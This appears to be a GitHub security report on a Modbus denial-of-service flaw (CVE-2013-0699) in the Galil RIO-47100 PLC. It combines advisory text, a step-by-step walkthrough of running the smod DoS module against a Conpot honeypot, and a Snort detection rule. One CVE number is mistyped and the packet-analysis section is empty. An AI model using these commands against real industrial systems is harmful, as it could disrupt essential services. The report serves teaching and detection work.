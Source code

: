 # Overview
In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target. 
This Report provides: 

- Mitigation details for a vulnerability affecting the Galil RIO-47100 “Pocket PLC.”
- Disclosure of exploit runs on ModBus protocol.  
- Simulating an attack scenario against Scada Honeypot (Conpot) 
- Modbus attack diagnostic functions in Wireshark
- Writing IDS rules to detect attack


Researcher Jon Christmas of Solera Networks has identified an improper validation vulnerability in the Galil RIO-47100 PLC, which can result in a loss of availability. Galil has produced an update that mitigates this vulnerability. The researcher has tested this update and validates that it resolves the vulnerability. This vulnerability could be exploited remotely.

---


# Vulnerability Overview

#### Improper Input Validation
The Galil RIO-47100 PLC allows repeated requests to be sent in a single session. By using these repeated requests sent in a single session, an attacker can cause a denial of service of the system.
CVE-2013-06992 has been assigned to this vulnerability. A CVSS v2 base score of 7.1 has been
assigned. This exploit sends multiple function code (read a coil repeated in a single packet) to break the machine.
#### Vulnerability Details 
The Rio-47100 by Galil is a small PLC with an internal RISC based
processor. It communicates using ModBus, or Telnet over Ethernet as well as
having a web server built in that allows a user to issue commands.

| Vendor -- Product  	| Description    | Published      | CVSS Score    |   Source & Patch Info    |
| ----- | ---------- | --------------- | --------------- | -----------|
| galil -- pocket_plc|The Galil RIO-47100 Pocket PLC allows remote attackers to cause a denial of service via a session that includes "repeated requests."| 2013-05-01 | [7.1](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?name=CVE-2013-0699&vector=(AV:N/AC:M/Au:N/C:N/I:N/A:C)&version=2.0&source=NIST)| [CVE-2013-0699](https://nvd.nist.gov/vuln/detail/CVE-2013-0699) |


##### _Explotability_
This vulnerability could be exploited remotely.
##### _Existence of Exploit_
Known public exploits specifically target this vulnerability.
##### _Difficulty_
An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs 
The following Galil product is affected:
- Hardware : RIO-47100 PLC by Galil.
- Version : Rio Firmware Prior to 1.1d
- Vendor : [`www.galilmc.com`](www.galilmc.com)

## Impact
Successful exploitation of this vulnerability could allow an attacker to affect the availability for the Galil RIO-47100 PLC. This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.
Impact to individual organizations depends on many factors that are unique to each organization.
## Background
Galil is a US-based company that maintains offices in Rocklin, California. Galil produces motion control products that are distributed globally.
The affected product, RIO-47100 PLC, is a compact PLC system that includes I/O. According to Galil, RIO-47100 PLC is deployed across several sectors including energy, defense industrial base, and agriculture and food. Galil estimates that these products are used primarily in the United States and Europe with a small percentage in Asia.


---
# Exploitation of Vulnerability 
We are going to exploit [CVE-2013-0699](https://nvd.nist.gov/vuln/detail/CVE-2013-0699#match-3087197) in this spesific example. As we mentioned before, with this exploit; attacker can cause a denial of service of the system. 

In order to exploit the vulnerability we need to download [Smod](https://github.com/Joshua1909/smod)
After downloading smod we can run it by typing;
```
cd smod
python smod.py
```

<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.1.png">
</p>
We can see the ModBus Frameworks' modules by typing;

```
show modules
```
<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.2.png">
</p>

```
use /modbus/dos/galilRIO
show options
```
We have checked which parameters our exploit needs to run. This exploit needs; 
`RHOST` = remote host ip address,
`UID` = Unit id,
paramateres.
```
set RHOST <ip>
set UID <uid>
```

After giving the parameters which are wanted we are ready to run it. 
```
exploit
```
<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.5.png">
</p>

As you can see above, dos attack has started.

---

# Packet Analysing


---
# Rules
```
alert tcp any any -> $HOME_NET 502 (
msg:"Inproper input Validation -Dos Attack-";
flow:to_server,established;
reference:cve,2013-0699;
classtype: denial-of-service;
sid:1;
pcre:"/([\x00-\xff])([\x00-\xff])(\x00)(\x00)(\x00)(\x06)([\x00-\xff])(\x01)(\x00)(\x00)(\x00)(\x01)/";
detection_filter:track by_dst, count 10, seconds 1;)
```
